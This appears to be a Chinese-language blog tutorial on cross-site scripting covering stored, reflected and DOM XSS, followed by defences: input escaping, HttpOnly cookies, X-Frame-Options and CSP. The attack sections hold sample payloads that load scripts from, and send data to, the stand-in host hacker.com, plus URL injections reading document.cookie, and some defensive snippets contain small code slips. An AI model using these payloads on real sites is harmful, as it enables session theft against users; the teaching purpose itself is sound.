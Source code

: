 ```yaml
---
title: "08 XSS攻防"
date: 2024-01-01T10:37:34+08:00
categories: ["Web安全和加速"]
tags: ["网络安全","技巧"]
draft: false
code:
  copy: true
toc:
  enable: true
---
```


> 漏洞扫描可以借助工具：Safe3WVS，Burp Suite ，AWVS，AppScan，W3af，Arachni，Acunetix 等提前自测。

> `XSS（Cross Site Script）`为跨站脚本攻击，取首字母简写为避免和`CSS`冲突而命名。**攻击者通常会向页面嵌入恶意脚本代码，当用于访问时会出发该脚本执行形成攻击。**
>
> **`XSS`的本质就是数据和脚本没有分离，界限混淆，缺少区分处理，使得浏览器渲染数据的同时将脚本一并执行了。**
>
> `XSS`一般可以分为三类：
>
> - 存储型XSS
> - 反射型XSS
> - DOM型XSS

## 一、存储型XSS

> 存储型XSS，是指攻击者利用网页的输入功能，将恶意脚本持久化在服务端，当任意用户访问页面导致该数据被渲染时，恶意脚本便会被浏览器执行，从而形成攻击获取用户本地信息。

攻击者可以利用`<script>`标签做攻击脚本，填写在某个页面的用户数据收集处，比如填写下方内容，其中 xxx.js 就包含了恶意代码。

```html
<script src="http://hacker.com/script/xxx.js"/>
```

```javascript
const xhr = new XMLHttpRequest();
xhr.open('GET', 'http://hacker.com/collectionInfo', true);
xhr.send();
```

上述植入逻辑中的异步请求，在浏览器的同源策略保护下，**可能会出现跨域问题**。此时可以考虑使用一些`DOM`元素的特性来**绕过同源策略**，比如 Image 元素。

```html
<script src="http://hacker.com/script/xxx2.js"/>
```

```javascript
(function() {
   (new Image()).src= 'http://hacker.com/collectionInfo';
});
```

## 二、反射型XSS

> 反射型XSS，是指攻击者不会将恶意脚本持久化在服务端，而是构造一些恶意连接诱导正常用户访问，这类`XSS`的特性是需要和正常用户产生交互。与DOM型XSS的区别是攻击的链接实际上是一些服务端请求链接。

比如对于一个请求链接：`http://www.normal.com/get?uid=`，正常使用的时候，实际上 uid 参数会带上用户的身份标识。攻击者利用这个链接，往往会构造出恶意执行脚本拼接在参数后方，比如：`http://www.normal.com/get?uid=<script>alert(document.cookie)</script>`，只要诱导用户点击来这个链接，则可以窃取用户的登录 cookie 信息。

## 三、DOM型XSS

> DOM型XSS，是一种特殊的反射型XSS，这种类型的`XSS`是利用了`DOM`标签的一些特性，并且不需要和服务端通信。

比如对于一个页面访问请求：`http://www.normal.com/user.html?uid=`，正常使用的时候，实际上 uid 参数会带上用户的身份标识。

攻击者可以利用这个链接，构造一个虚假的DOM元素出来，比如：`http://www.normal.com/user.html?uid=<input type="button" value="登录" onClick="alter(document.cookie)"/>`，也可以不需要和用户交互的：`http://www.normal.com/user.html?uid=<img src='notFound.jpg' onerror="alter(document.cookie)"/>`

## 四、防护策略

> `XSS`攻击的防护策略主要就是针对其本质做对应的加固，也即，将数据和脚本做区分，对于疑似脚本的数据做转义处理

1. 在网关或者过滤器等请求流量入口处，做参数合法性校验（长度或特殊字符），以及针对特殊字符的转义处理。

   ```java
   // 方式一：自定义处理方式，将特殊字符映射为全角字符（输入）
   public static String xssEncoding(String param) {
       if (param == null || param.isEmpty()) {
           return param;
       }
       StringBuilder sb = new StringBuilder(param.length() + 16);
       for(int i=0; i < param.length(); i++) {
           char c = param.charAt(i);
           switch (c) {
               case '>':
                   sb.append('>'); // 全角大于号
                   break;
               // etc.
           }
       }
       return sb.toString();
   }
   ```

   ```java
   // 方式二：借助第三方库做特殊字符转义（输入）
   /**
    * <groupId>org.owasp.antisamy</groupId>
    * <artifactId>antisamy</artifactId>
    */
   public class XssEncoder {
       private static Policy policy = null;
       
       static {
           String path = XssEncoder.class.getClassLoader().getResource("antisamy-anythinggoes.xml").getFile();
           if (path.startsWith("file")) {
               path = path.substring(6);
           }
           try {
               policy = Policy.getInstance(path);
           } catch (Exception e) {
               throw new RuntimeException(e);
           }
       }
       
       public static String xssEncode(String param) {
           AntiSamy antiSamy = new AntiSamy();
           try {
               Clean Results cr = antiSamy.scan(param, policy);
               // 输出安全的 HTML
               return cr.getCleanHTML();
           } catch (Exception e) {
               throw new RuntimeException(e);
           }
       }
   }
   ```

   ```java
   // 方式三：借助第三方库做特殊字符转义（输入）
   /**
    * <groupId>org.apache.commons</groupId>
    * <artifactId>commons-text</artifactId>
    */
   public class XssEncoder {
       public static String xssEncode(String param) {
           // return StringEscapeUtils.escapeJson(param);
           // return StringEscapeUtils.escapeEcmaScript(param);
           return StringEscapeUtils.escapeHtml4(param);
       }
   }
   ```

   ```java
   // 方式四：借助第三方库做特殊字符转义（输出）
   /**
    * <groupId>org.owasp.esapi</groupId>
    * <artifactId>esapi</artifactId>
    */
   ```

2. 为响应的`Cookie`设置只读属性（如果是`SpringBoot`项目，属性`server.servlet.session.cookie.http-only`默认就是`true`开启的），或者为响应资源禁用`iframe`策略

   ```java
   // 设置 cookie 只读属性的方式
   response.setHeader("SET-COOKIE", "JSESSIONID=" + request.getSession().getId() + "; HttpOnly");
   // 设置响应对于 iframe 的策略（SAMEORIGIN表示同域名下可以挂iframe；DENY表示不允许；ALLOW-FROM uri表示指定uri的地址可以挂）
   response.setHeader("x-frame-options", "SAMEORIGIN");
   ```

   ```nginx
   // 设置响应对于 iframe 的策略
   add_header X-Frame-Options SAMEORIGIN;
   ```

3. 使用`CSP`协议为响应资源限制加载策略

   > `CSP（Content-Security-Policy）`内容安全策略是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 (XSS) 和数据注入攻击等。
   >
   > 核心思想：网站通过发送一个 CSP 头部，来告诉浏览器什么是被授权执行的与什么是需要被禁止的。
   >
   > `CSP`有两种配置：
   >
   > - Content-Security-Policy：配置好并启用后，不符合 CSP 的外部资源就会被阻止加载
   > - Content-Security-Policy-Report-Only：表示**不限制选项执行**，只是记录违反限制的行为。它必须与 report-uri 选项配合使用

   ```nginx
   # Filter 配置方式可参考，此处演示 Nginx 的配置方式
   # 也可用于 HTML 的 <meta http-equiv="content-security-policy" content="xxx"/> 标签指定
   add_header Content-Security-Policy default-src 'self' *.yiwenup.cloud # 表示限制所有外部资源，仅从指定域名及子域名加载
   add_header Content-Security-Policy default-src 'self'; img-src *; media-src media1.com media2.com; script-src script.yiwenup.cloud; report-uri /_/csp-reports # 表示图片可以从任意地方加载，媒体文件仅从指定位置加载，脚本文件仅从指定位置加载，对于违例的访问将记录信息发送至 csp-reports 处理
   ```

   ```json
   // CSP 报告的请求格式
   {
       "csp-report": {
           "document-uri": "xxxx",
           "referrer": "",
           "block-uri": "yyyyy",
           "violated-directive": "ppppp",
           "original-policy": "default-src 'self'; img-src *; media-src media1.com media2.com; script-src script.yiwenup.cloud; report-uri /_/csp-reports"
       }
   }
   ```

   
